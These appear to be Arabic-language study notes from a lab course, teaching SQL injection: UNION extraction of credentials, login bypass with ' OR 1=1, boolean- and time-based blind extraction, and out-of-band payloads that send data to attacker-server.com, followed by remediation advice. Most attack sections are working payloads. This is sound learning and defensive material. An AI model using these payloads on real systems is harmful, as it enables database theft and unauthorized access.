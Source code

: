 # SQL injection

<details>
   <summary> in-band SQLI </summary>

🧪 الجزء العملي - خطوة بخطوة
1. اكتشاف الثغرة:
افتح المتصفح، وروح للرابط اللي فيه id=1.

جرب تحط ' بعد الرقم كده:


```
id=1'
```
هتلاقي رسالة خطأ ظهرت.
ده معناه إن المدخل بتاعك داخل فعلاً جوه استعلام SQL، وده تأكيد إن فيه ثغرة.

2. نبدأ نستغلها بـ UNION
جرب كده:

```
id=1 UNION SELECT 1
```
هتلاقي رسالة خطأ بتقولك إن عدد الأعمدة مش متطابق.

جرب تزود الأعمدة:
```
id=1 UNION SELECT 1,2
```
لسه في Error؟ زود كمان:

```
id=1 UNION SELECT 1,2,3
```
كده اشتغل! ليه؟ لأن الاستعلام الأصلي بيرجع 3 أعمدة، فلازم الاتحاد يكون بنفس العدد.

3. نخلي الـ UNION يشتغل لوحده
يعني نمنع الاستعلام الأصلي من إرجاع نتيجة.

اعمل id=0 بدلاً من 1:
```
id=0 UNION SELECT 1,2,3
```
كده الصفحة هتعرض النتائج اللي انت رجعتها.

4. نعرض اسم قاعدة البيانات:
```
id=0 UNION SELECT 1,2,database()
```
هيظهر لك اسم قاعدة البيانات، مثلاً: sqli_one.

5. نعرض أسماء الجداول داخل قاعدة البيانات:
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
النتيجة:
```
article,staff_users
```

يبقى فيه جدول اسمه staff_users ده غالبًا فيه اليوزرز.

6. نعرف أسماء الأعمدة داخل جدول staff_users:
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
النتيجة:
```
id,username,password
```

7. نجيب اليوزرات والباسوردات:
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
هتلاقي النتائج بتظهر كده:

```
martin:123456
admin:qwerty
```


✅ ملخص سريع:

الخطوة | الهدف
------------|---------------------
' | تأكد وجود الثغرة
UNION SELECT 1,2,3 | تأكد من عدد الأعمدة
database() | جبت اسم قاعدة البيانات
information_schema.tables | جبت أسماء الجداول
information_schema.columns | جبت أسماء الأعمدة
staff_users | جبت البيانات الحساسة زي الباسورد

  
</details>






<details>
     <summary>Blind SQLI (Authentication Bypass)</summary>

      🕶️ Blind SQL Injection (الحقنة العمياء)
يعني إيه "Blind"؟
يعني مافيش رسائل خطأ، ولا داتا طالعة على الشاشة تقولك إن الهجمة نجحت.

لكن بالرغم من كده، الحقنة (injection) شغالة، بس السيرفر مابيظهرلكش حاجة مباشرة تقولك كده.

🧠 طيب نستفيد منها إزاي؟
كل اللي إحنا محتاجينه هو "رد فعل بسيط" من الموقع.
يعني مثلاً:

لو طلعلك صفحة معينة = الاستعلام نجح.

لو فضلك على نفس الصفحة = الاستعلام فشل.

وده كفاية إننا نبدأ نشتغل ونستخرج معلومات من قاعدة البيانات حتى لو بشكل بطيء.

🔓 Bypassing Authentication (تخطي تسجيل الدخول)
دي واحدة من أسهل الطرق في Blind SQLi، وممكن نكسر بيها فورم تسجيل الدخول.

🤔 إزاي بيشتغل تسجيل الدخول أصلاً؟
الموقع بيعمل استعلام بالشكل ده:

```
SELECT * FROM users WHERE username = 'ali' AND password = '123456' LIMIT 1;
```
لو فيه مستخدم بالبيانات دي، الاستعلام بيرجع صف واحد → يبقى المستخدم يدخل.

📌 إحنا نعمل إيه؟ نضحك على الاستعلام!
بدل ما نحاول نخمن Username وPassword، إحنا هنخلي الاستعلام يرجع نتيجة مهما كانت البيانات غلط.

🎯 الطريقة:
في خانة الـ Password، نكتب:

```
' OR 1=1;--
```
ده بيحوّل الاستعلام إلى:

```
SELECT * FROM users WHERE username = '' AND password = '' OR 1=1;--
```
شرحها:

'' AND '' → ده هيرجع false.

OR 1=1 → ده true دايمًا.

-- → ده بيعلّق باقي الاستعلام (يعني أي حاجة بعده مش بتتنفذ).

فالاستعلام كله بيرجع true، وكأنك سجلت دخولك بنجاح، حتى من غير Username أو Password!

✅ النتيجة:
لو الموقع معمول بشكل غير آمن، هيسمحلك بالدخول من غير بيانات صحيحة.

🛠️ ملحوظة مهمة:
لو ما نفعش:

جرب أنواع مختلفة من علامات التنصيص: " OR 1=1-- أو حتى ') OR ('1'='1.

جرب تحط القيمة في خانة الـ Username بدل Password.

🔐 ملخص سريع:



   العنصر | الوصف
   -------------|----------------
الهدف | تخطي تسجيل الدخول
نوع الهجوم | Blind SQLi
الوسيلة | استغلال منطق التحقق من صحة البيانات
الباي لود | ' OR 1=1;--
        
</details>






<details>
   <summary>Blind SQLi - (Boolean Based)</summary>

   🕵️‍♂️ يعني إيه Boolean-Based Blind SQL Injection؟
النوع ده من الـ SQLi بيشتغل على إنك ما بتاخدش بيانات واضحة من السيرفر، لكن السيرفر بيرد عليك بـ حاجة ثنائية (صح أو غلط)، زي:

true / false

1 / 0

yes / no

أو مثلًا تظهر صفحة أو ما تظهرش.

والحيلة هنا إنك تراقب رد الفعل على الاستعلام، مش البيانات نفسها.

🎯 المثال العملي:
رابط زيه كده:

```
https://website.thm/checkuser?username=admin
```
الرد بيكون حاجة شبه:

```
{"taken":true}
```
يعني اسم المستخدم موجود.

لو كتبنا:

```
https://website.thm/checkuser?username=admin123
```
هيكون الرد:

```
{"taken":false}
```
يعني الاسم مش موجود.

فهمنا كده إن فيه API بتشيك هل اسم المستخدم موجود ولا لأ.

🛠️ الاستعلام اللي السيرفر بيشغله غالبًا شكله كده:
```
SELECT * FROM users WHERE username = '%username%' LIMIT 1;
```
واحنا بنقدر نتحكم في %username% من خلال الرابط.

✅ الهدف الأول: نعرف عدد الأعمدة
نبدأ نضيف استعلام UNION، ونجرب نعرف عدد الأعمدة في الجدول.
نجرب مثلاً:

```
admin123' UNION SELECT 1;--
```
لو السيرفر رجّع false → يبقى عدد الأعمدة مش 1.
نزيد شوية:

```
admin123' UNION SELECT 1,2;--
```
برضو false → مش 2.

لحد ما نوصل:

```
admin123' UNION SELECT 1,2,3;--
```
وهنا هنلاقي {"taken": true}
يبقى كده عرفنا إن الجدول بيرجع 3 أعمدة. ✅

🔍 الهدف الثاني: نعرف اسم قاعدة البيانات
نستخدم الدالة database() اللي بترجع اسم قاعدة البيانات الحالية.

نجرب حاجة بسيطة:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```
% معناها أي حاجة، فالنتيجة هتبقى true.

نجرب نحصر أكتر:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--
```
لو النتيجة false → يبقى الاسم مش بيبدأ بـ a.

نكمل نحاول بالحروف:

b%

c%

... لحد ما نلاقي:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--
```
يعني الاسم بيبدأ بـ s.

نبدأ نحاول حرف حرف:

sa%

sb%

sq%

...

لحد ما نوصل لـ sqli_three ✅

🧱 الهدف الثالث: نكتشف أسماء الجداول
نروح على information_schema.tables ونستخدم نفس الطريقة:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'a%';--
```
لو false → نغير الحرف.

نجرب لحد ما نلاقي:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name='users';--
```
يبقى فيه جدول اسمه users ✅

🧩 الهدف الرابع: نكتشف أسماء الأعمدة في جدول users
نروح على:

```
information_schema.columns
```
ونجرب:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema='sqli_three' AND table_name='users' AND column_name LIKE 'a%';--
```
كل مرة نكتشف عمود، نستبعده عشان نكمل نجيب الباقي:

```
... AND column_name != 'id'
```
وهكذا نكررها لحد ما نكتشف الأعمدة:

id

username

password ✅

🔐 الهدف الأخير: نكتشف بيانات المستخدم (اسم وكلمة مرور)
نبدأ باسم المستخدم:
```
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--
```
نكرر لحد ما نعرف إن فيه username اسمه admin.

بعد كده نجيب الباسورد:
```
admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '3%';--
```
نجرب حرف حرف لحد ما نوصل للباسورد الكامل:

```
3845 ✅
```
🎉 النتيجة:
قدرنا من غير ما نشوف بيانات مباشرة نعرف:

اسم قاعدة البيانات.

اسم الجدول.

أسماء الأعمدة.

اسم المستخدم.

الباسورد.

وكل ده عن طريق الملاحظة الذكية لردود السيرفر.
   
   
</details>













<details>
   <summary>Blind SQLi - (Time Based)</summary>

   ⏱️ إيه هو Time-Based Blind SQL Injection؟
النوع ده بيشتغل على مبدأ:

"لو الاستعلام اتحقق صح، نفّذ SLEEP(x) واتأخر في الرد."

ولو ما اتأخرش، يبقى الاستعلام فشل أو ما تنفذش بالطريقة اللي إحنا عايزينها.

🔧 بنستخدم فين SLEEP()؟
في قواعد البيانات زي MySQL، فيه دالة اسمها SLEEP(5) بتخلّي السيرفر يستنى 5 ثواني قبل ما يرد.

💡 الهدف الأول: نعرف عدد الأعمدة
بنبدأ باستعلام بسيط زي:

```
admin123' UNION SELECT SLEEP(5);--
```
لو السيرفر ما اتأخرش → يبقى الاستعلام غلط.

نزوّد عمود كده:

```
admin123' UNION SELECT SLEEP(5), 2;--
```
لو حصل تأخير 5 ثواني → يبقى عدد الأعمدة = 2 ✅

لو ما حصلش، نزود:

```
admin123' UNION SELECT SLEEP(5), 2, 3;--
```
ونكمل لحد ما نحصل على التأخير → ده معناه إننا عرفنا عدد الأعمدة.

🧱 زي boolean-based، نكمل بنفس الطريقة لكن بنقيس الوقت:
🧠 اكتشاف اسم قاعدة البيانات:
نستخدم database() ومعاها شرط LIKE وسليب:

```
admin123' UNION SELECT SLEEP(5), 2 WHERE database() LIKE 's%';--
```
لو حصل تأخير → يبقى الاسم بيبدأ بـ s
لو ما حصلش → جرّب حرف تاني (a%, b%, c%, ...)

نكمّل حرف حرف:

sa%

sql%

sqli_t% ... لحد ما نوصل لـ sqli_three ✅

🧩 اكتشاف الجداول:
نروح على information_schema.tables ونكتب:

```
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'u%';--
```
لو حصل تأخير → فيه جدول بيبدأ بـ u.

نجرّب أكتر لحد ما نجيب:

```
table_name = 'users'
```
🧠 اكتشاف الأعمدة:
نكرر نفس الفكرة:

```
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema='sqli_three' AND table_name='users' AND column_name LIKE 'u%';--
```
كل مرة نكتشف عمود نعمل:

```
... AND column_name != 'username'
```
ونكررها لحد ما نكتشف: id, username, password ✅

🔓 استخراج بيانات الدخول:
أولًا: نجيب اسم المستخدم
```
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username LIKE 'a%';--
```
لحد ما نوصل لـ admin

ثانيًا: نجيب الباسورد
```
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '3%';--
```
نكمل:

38%

384%

3845 ✅

🎉 الخلاصة:
بالـ Time-Based SQLi:

بنكتشف الأعمدة من خلال زمن التأخير.

بنكرر نفس خطوات Boolean-Based لكن بذكاء مع الزمن.

الاختبار الحقيقي في المثابرة والتجريب واحدة واحدة.
   
</details>









<details>
   <summary>Out-of-Band SQLi</summary>

   📡 إيه هو Out-of-Band SQLi؟
النوع ده مش بيعتمد على ظهور بيانات مباشرة في الصفحة (زي In-Band)
ولا على تأخيرات أو استجابات منطقية (زي Boolean أو Time-based)

إنما بيعتمد على فكرة مختلفة شوية:

"أنا هبعت حاجة في الاستعلام تخلي قاعدة البيانات تتصل بجهازي أو سيرفر خارجي، وتبعتلي منه البيانات!"

يعني فيه قناتين:

🎯 قناة الهجوم = الريكوست اللي انت بعتّه للسيرفر (مثلاً POST أو GET).

📥 قناة التجميع = الاتصال اللي بيحصل من قاعدة البيانات لجهازك، زي DNS أو HTTP.

🧠 ازاي بيحصل الهجوم ده؟
خلينا نوضحها بخطوات:

🔍 تكتشف نقطة SQLi (زي أي نوع تاني).

💉 تكتب Payload خاص بيستخدم دوال زي:

LOAD_FILE()

xp_dirtree (في MSSQL)

UTL_HTTP.REQUEST() (في Oracle)

أو dnslookup() لو قاعدة البيانات تدعمها.

🌐 الاستعلام يجبر قاعدة البيانات تبعت طلب خارجي (DNS أو HTTP) لسيرفر انت بتتحكم فيه.

🛰️ انت بتراقب السيرفر ده، وتشوف البيانات وهي بتجيلك من الـ payload.

🧪 مثال عملي: (MySQL)
لو عندك دومين أو سيرفر انت بتملكه زي:

```
attacker-server.com
```
تكتب في خانة vulnerable:


```
' UNION SELECT LOAD_FILE('\\\\attacker-server.com\\data')--
```
أو (لو تشتغل مع MySQL/DNS):

```
'; SELECT extractvalue(xmltype('<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % ext SYSTEM "http://attacker-server.com"> %ext;]>'),'/');--
```
ده يجبر قاعدة البيانات إنها تحاول تفتح اتصال HTTP لسيرفرك، وفيه ممكن تحط البايلود يبعَتلك داتا.

💡 في MSSQL:
```
'; exec master..xp_dirtree '\\attacker-server.com\share';--
```
ده بيخلي السيرفر يحاول يتصل على SMB Share، وده انت بتراقبه من جهازك أو سيرفرك.

🛠️ إزاي أراقب الطلبات دي؟
تشغّل أداة على جهازك أو سيرفرك زي:

🧰 Burp Collaborator أو

🛡️ Responder (لـ SMB)

🐍 أو حتى Script Python بـ Flask أو SimpleHTTPServer

🔬 DNS server مخصص، زي dnslog.cn

📛 ملحوظات مهمة:
النوع ده مش دايمًا بيشتغل، لأنه بيعتمد على:

إعدادات قاعدة البيانات

وجود صلاحيات كافية

إن الـ firewall ميسدّش الـ outgoing requests


🔐 الخلاصة:


العنصر | النوع
----------|----------------
طريقته | قناة هجوم + قناة استقبال خارجي
أدوات مساعدة | DNSLog / Burp Collaborator / Responder
يعتمد على | إرسال بيانات خارجية (HTTP, DNS, SMB)
فعال لما؟ | لما باقي الأنواع ماتديش أي feedback


   
</details>







---

## **``Remediation``**



🛡️ إزاي نحمي التطبيق من SQL Injection؟
فيه 3 وسائل أساسية اتكلم عنها الكلام اللي فوق، وهنشرح كل واحدة:

1. ✅ Prepared Statements (الاستعلامات المجهزة مسبقًا)
📌 يعني إيه؟
بدل ما تكتب الكود كده:

```
"SELECT * FROM users WHERE username = '" + userInput + "'"
```
بتكتبه بالشكل الآمن ده:

🔒 مثال آمن بلغة PHP (PDO):
```
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$userInput]);
```
أو بلغة Python:

```
cursor.execute("SELECT * FROM users WHERE username = %s", (user_input,))
```
✅ ده بيخلي الـ DB تعرف الفرق بين الكود والداتا، ومفيش injection ممكن يحصل.

2. 🧼 Input Validation (التحقق من البيانات)
📌 يعني إيه؟
تتأكد إن المستخدم بيكتب الحاجة اللي المفروض يكتبها فقط.

مثلًا: لو خانة فيها رقم، ماينفعش تقبل حروف أو رموز.

🔒 أمثلة:
في خانة ID → لازم يكون رقم بس (123)

في خانة username → تمنع الرموز الغريبة (< > ' " %)

📋 أفضل طريقة؟

استخدم Allow List (يعني تحدد إيه المسموح بيه بدل ما تمنع إيه الممنوع)

مثال: تقبل حروف A-Z و 0-9 بس.

3. 🔐 Escaping User Input (تخبيط الرموز الخطيرة)
📌 يعني إيه؟
لو المستخدم كتب حاجة فيها ' أو " أو \، دي رموز ممكن تخرب الاستعلام وتسبب injection.

🔧 الحل:
"Escape" الرموز دي يعني تضيف \ قبلها.

مثال: ' تتحول لـ \'

📌 معظم لغات البرمجة أو مكتبات الـ SQL بتوفر دوال بتعمل كده تلقائي، بس مش دايمًا كفاية لوحدها.

✅ خلاصة الكلام:
















